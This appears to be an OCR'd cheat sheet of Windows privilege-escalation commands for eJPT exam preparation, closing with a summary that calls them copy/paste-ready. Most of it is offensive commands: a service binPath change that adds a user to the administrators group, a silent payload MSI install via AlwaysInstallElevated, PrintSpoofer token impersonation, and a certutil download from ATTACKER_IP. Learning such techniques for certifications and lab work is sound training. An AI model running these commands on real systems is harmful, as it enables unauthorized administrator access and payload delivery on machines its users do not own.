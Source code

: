 Services
```
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /v /i "C:\Windows\\"
sc qc "ServiceName"
icacls "C:\Path\To\Service\Folder"
```

Exploit (service change)
```
sc config "ServiceName" binPath= "cmd.exe /c net localgroup administrators lowuser /add"
sc stop "ServiceName" & sc start "ServiceName"
```

Scheduled tasks
```
schtasks /query /fo LIST /v
```

AlwaysInstallElevated
```
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
msiexec /quiet /qn /i C:\Temp\payload.msi
```

Token impersonation
```
whoami /priv
PrintSpoofer64.exe -i -c cmd
```

Transfer
```
certutil -urlcache -f http://ATTACKER_IP/tool.exe C:\Windows\Temp\tool.exe
```

# Summary

Without the transcript, this summary lays out a standard eJPT-ready methodology for Windows privilege escalation: enumerate thoroughly, hunt credentials, inspect services and scheduled tasks, check installer policies, and leverage token impersonation when available. The commands above are copy/paste-ready and cover the most common, reliable escalation vectors you’ll encounter in exam-style Windows targets.